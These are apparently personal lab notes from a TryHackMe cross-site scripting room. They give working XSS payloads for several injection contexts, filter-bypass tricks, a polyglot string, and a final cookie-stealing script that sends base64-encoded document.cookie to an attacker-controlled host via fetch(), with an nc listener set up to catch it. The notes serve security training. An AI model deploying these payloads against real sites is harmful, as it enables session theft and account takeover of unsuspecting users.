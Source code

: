 # Scenarios
### If you enter information into a field and it returns that info on a page such as:
![49444bf865cdc230d9855b53d93745c6.png](/Cybersecurity/Screenshots/49444bf865cdc230d9855b53d93745c6.png)
-  Test for 
```
<script>alert('THM');</script>
```

### If your response is being reflected through an input tag:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)
- It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: 
```
"><script>alert('THM');</script>
```
- the `">` which closes the value parameter and then closes the input tag.  This now closes the input tag properly and allows the JavaScript payload to run:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/21a6597c0964f08c69ebffbf014a886a.png)

### same as the previous, but your name gets reflected inside an HTML tag, this time the textarea tag:
![c3d0d38d23fab0608bc3ca8b9441974c.png](Cybersecurity/Screenshots/c3d0d38d23fab0608bc3ca8b9441974c.png)
- to escape the textarea tag, use the following payload: 
```
</textarea><script>alert('THM');</script>
```
- `</textarea>` causes the textarea element to close so the script will run.

### your name gets reflected in some JavaScript code.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
- You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload 
```
';alert('THM');//
```
- The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

### if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.  
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/9bd2142b2bcd4b4cba34e571550294e4.png)  
- The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.  
- When a word gets removed from a string, there's a helpful trick that you can try:
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

- To do this, use the following payload:
```
<sscriptcript>alert('THM');</sscriptcript>
```

### When prompted to enter an image path
Here, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)  
- You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. 
- The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.
- change our payload to reflect this:
```
/images/cat.jpg" onload="alert('THM');
``` 
- Then viewing the page source, and you'll see how this will work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

### Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
-  XSS polyglots are useful for **quick and broad** testing, but they **aren't enough** for thorough XSS testing. You’ll need to craft **context-specific payloads** to evade filters, WAFs, and different sanitization methods.

### Extract cookies when another user visits the same site and loads our script
Our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice.
1. Firstly, we'll need to set up a listening server to receive the information. `nc -lnvp PORT`
2. Build the payload:
```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the request catcher URL or your IP address from your attacking box
- `PORT_NUMBER` is the port number you are using to listen for connections on 
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
3. Wait for the connection


